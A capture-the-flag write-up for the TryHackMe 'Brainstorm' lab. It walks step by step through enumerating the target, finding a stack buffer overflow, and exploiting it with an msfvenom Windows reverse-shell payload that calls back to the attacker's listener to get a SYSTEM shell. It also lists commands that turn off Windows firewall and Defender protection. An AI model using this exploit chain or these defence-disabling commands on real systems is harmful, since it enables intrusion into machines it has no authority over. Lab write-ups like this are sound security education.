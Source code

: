 # TryHackMe - Brainstorm

Writeup for the [Brainstorm](https://tryhackme.com/room/brainstorm) room in [TryHackMe](https://tryhackme.com/).

## Setup

Attacker:
* Kali Linux - IPs: 10.2.31.1, 10.9.0.117
* Windows 10 VM - IP: 10.2.31.155

Target:
* Windows, IP 10.10.144.220

## Exploitation steps

1. [Target enumeration](#target-enumeration)
1. [Binary exploration](#binary-exploration)
1. [Buffer overflow exploit](#buffer-overflow-exploit)

## Target enumeration

After starting the machine, I began an nmap enumeration:
```
nmap -n -Pn -p- 10.10.144.220
```

The target had some interesting open ports.

Whenever I find FTP or SMB ports I already start some manual exploration while at the same time executing other enumeration tools (enum4linux, nmap --script, etc).

Trying to connect to the FTP port (21) anonymously was a success:
```
ftp 10.10.144.220 21
```

Two interesting files were found in a directory and downloaded:
```
mget *
```
![mget](imgs/mget.png?raw=true)


These files seemed like they were key to this challenge and I decided to test them in a Windows environment.

I configured a temporary Windows 10 Virtual Machine and installed the following tools:

* Immunity Debugger: https://www.immunityinc.com/products/debugger/
  * Download and follow the default install
* mona.py: https://github.com/corelan/mona
  * Download and copy the file to the 'PyCommands' directory inside the Immunity Debugger install dir (usually is at 'C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands')

I disabled Windows firewall and antivirus so as not to have any problems during the tests:
```
netsh advfirewall set allprofiles state off
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

With the Windows VM setup, it was time to test the binary.

## Binary exploration

First thing I did was simply to run the application and see what it did.

With the application running, I verified if it had any open ports:
```
tasklist /v | findstr FILENAME.exe
```
![tasklist](imgs/tasklist.png?raw=true)

```
netstat -ano | findstr 524
```
![netstat](imgs/netstat.png?raw=true)

Nice! The opened port is one of the ports found during the target enumeration. The target is probably running this application.

We can interact both with the target and the Windows VM to find out if they are indeed running the same application:

* Windows VM
```
nc -nv 10.2.31.155 9999
```
![ncvm](imgs/ncvm.png?raw=true)

* Target
```
nc -nv 10.10.144.220 9999
```
![nctarget](imgs/nctarget.png?raw=true)


They are probably the same! Now it was time to test for some buffer overflow vulnerabilities.

During my studies I created a somewhat generic Python script to ease this type of test:
* ig-buffer-overflow.py: https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow

I used the script in all following steps. Please feel free to reuse it and contribute to it.

First thing was to open the application in the debugger and send some random bytes to it (I sent 10000). In this case I tried to crash the application after the 'user' input, while it was waiting for the write content.
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=9999 --buffsize=10000 --buffhead='' --interact=";;user"
```

Nice! The application crashed. Analysing the debugger we can see that we could overwrite the EIP and that the ESP pointed to some of the content that we sent:

![debuggereip](imgs/debuggereip.png?raw=true)

Verifying our memory disposition (right-click on 'ESP' → Follow in Dump), we could see that the application broke at approximately 4096 bytes (1000h):

![debuggeresp](imgs/debuggeresp.png?raw=true)

Now it was time to try to find out where in our sent content was the EIP, or, as also known, find out what was the EIP offset.

I restarted the application on the debugger and sent a cyclic string from my Kali Linux:
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user"
```
![regs](imgs/regs.png?raw=true)

The application crashed with EIP = 31704330

Using the same script, I could now find where in the string I could set the EIP:
```
./ig-buffer-overflow.py -m checkoffset --value 31704330 --length=4096
Offset for length 4096: 2012
```

I now had to find the address of an instruction that could jump to the ESP. I used mona.py:
```
!mona jmp -n -r ESP
```
![mona](imgs/mona.png?raw=true)

I used the first found address (0x625014df)

Before sending a test shell code, I tested the application for bad chars (I already removed the null byte '00' since this usually crashes memory):
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --badchar=after --exclude=00
```
![badchars](imgs/badchars.png?raw=true)

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 012DEEA8
```
![monabadchars](imgs/monabadchars.png?raw=true)


Only '00' was found out as a badchar (since I didn't send it). I could finally test the execution of some shell code.

I generated the payload using msfvenon:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=80 -f hex EXITFUNC=thread -o reverse280
```

I set up a listener on my Kali Linux:
```
sudo rlwrap -a nc -lvnp 80
```

And sent the exploit:
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --shellcode=reverse280 --nops=12
```
![vmshell](imgs/vmshell.png?raw=true)


Success! Got the shell. But on my Windows VM.


## Buffer overflow exploit

I now only had to adapt the exploit so that it could run on the target machine.

I regenerated the shell code:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.9.0.117 LPORT=80 -f hex EXITFUNC=thread -o reverse980
```

Set up a listener:
```
sudo rlwrap -a nc -lvnp 80
```

Executed the exploit:
```
./ig-buffer-overflow.py -m exploit --rhost=10.10.144.220 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --shellcode=reverse980 --nops=12
```
![targetshell](imgs/targetshell.png?raw=true)

Bingo! Got a privileged user shell (nt authority\system)!

I searched for the file using the following Windows commands and completed the challenge!
```
cd C:\
dir /b/s *root.txt
type "C:\FINDTHEPATH\root.txt"
```

THE END!

---

*Note: I did try to crash the application at the 'user' parameter, but for some reason could not do it. I saw that I could overwrite the EIP in this case, so I'll probably retry this later.*


